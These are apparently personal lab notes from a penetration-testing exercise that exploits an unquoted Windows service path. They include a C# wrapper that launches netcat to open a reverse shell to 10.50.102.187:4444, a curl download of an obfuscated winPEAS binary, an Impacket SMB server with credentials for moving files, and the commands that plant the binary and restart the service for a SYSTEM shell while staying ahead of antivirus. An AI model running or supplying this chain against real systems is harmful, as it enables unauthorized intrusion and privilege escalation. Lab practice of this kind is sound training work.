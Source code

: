 
with the unquoted service path, all we need is one very small "wrapper" program that activates the netcat binary that we _already have on the target._

Will install Mono to compile the binary
```
sudo apt install mono-devel
```

After the installation we have to open this file Wrapper.cs

```
using System;  
using System.Diagnostics;
```

These allow us to start new processes (i.e. execute netcat).

As i am feeling sleepy will start it tomorrow after the doctor's appointment


This means that we can create our unquoted service path exploit, but we could also perform attacks such as DLL hijacking, or even outright replacing the service executable with a malicious binary.

```
curl http://10.50.102.187/winPEASx64_ofs.exe -o C:\xampp\htdocs\resources\uploads\sardarji-win.exe
```
![[Pasted image 20240121011328.png]]

Finally able to run the winpeas ofs file aka obfuscated file
![[Pasted image 20240121013007.png]]

As you can see there is lot of vulnerability's here due to not upto date patching and updating of files
![[Pasted image 20240121013107.png]]

This is what we have found earlier and verified by the user
![[Pasted image 20240121013347.png]]

![[Pasted image 20240121013522.png]]

Will make a file with name wrapper.cs
```
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc.exe", "10.50.102.187 4444 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```

```
gedit Wrapper.cs
```
```
mcs Wrapper.cs
```
![[Pasted image 20240121215236.png]]

Now will learn a new way to transfer the file for that will use Impacket toolkit
Impacket SMB server

```
python /opt/impacket-0.9.19/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
```


```
net use \\10.50.102.187\share /USER:user s3cureP@ssword
```

```
copy \\10.50.102.187\share\Wrapper.exe %TEMP%\wrapper-sardarji.exe
```
![[Pasted image 20240121215947.png]]

It is often useful to just leave an SMB server running in the background when working with Windows targets. We will use this server later, so let's leave it up for now.

```
net use \\10.50.102.187\share /del
```
![[Pasted image 20240121220114.png]]
But will delete it for now 

```
"%TEMP%\wrapper-sardarji.exe"
```
![[Pasted image 20240121220608.png]]

![[Pasted image 20240121220629.png]]
Volla we got the reverse shell but still we are not the root user.

So it's now time to exploit that unquoted service path vulnerability!

This is the path
```
C:\Program Files (x86)\System Explorer\SystemExplorer\service\SystemExplorerService64.exe
```
There are technically three places we _could_ add our program here:
If you recall we have already checked the write permission of SystemExplorer and we have full access.

```
copy %TEMP%\wrapper-sardarji.exe "C:\Program Files (x86)\System Explorer\System.exe"
```
![[Pasted image 20240121224707.png]]

Now will check if we have copied the file or not 
```
dir "C:\Program Files (x86)\System Explorer\"
```
![[Pasted image 20240121224811.png]]

![[Pasted image 20240121225208.png]]
We have 5 minute time otherwise the script will be deleted by the AV

```
sc stop SystemExplorerHelpService
```

```
sc start SystemExplorerHelpService
```

![[Pasted image 20240121225354.png]]

Guess what we have the reverse shell but with root authority
![[Pasted image 20240121225444.png]]

Now we need to delete the wrapper file as it's not a window's file that's why we got the error in the first place and it's a good habit to do that.
```
del "C:\Program Files (x86)\System Explorer\System.exe"
```

```
sc start SystemExplorerHelpService
```

![[Pasted image 20240121225825.png]]


>[! question] **Bonus Question (optional):**
>Research how to write a real Windows Service executable in C# and try to create a wrapper (or even a full reverse shell!) that doesn't cause the `sc start` command to error out.

- [ ] Bonus question

This is make a new user with a know password but it will bypass the AV so will keep it in our back pocket for now.
[windows dotnet blog](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/walkthrough-creating-a-windows-service-application-in-the-component-designer)
[C sharp Corner](https://www.c-sharpcorner.com/article/create-windows-services-in-c-sharp/)

https://github.com/mattymcfatty/unquotedPoC


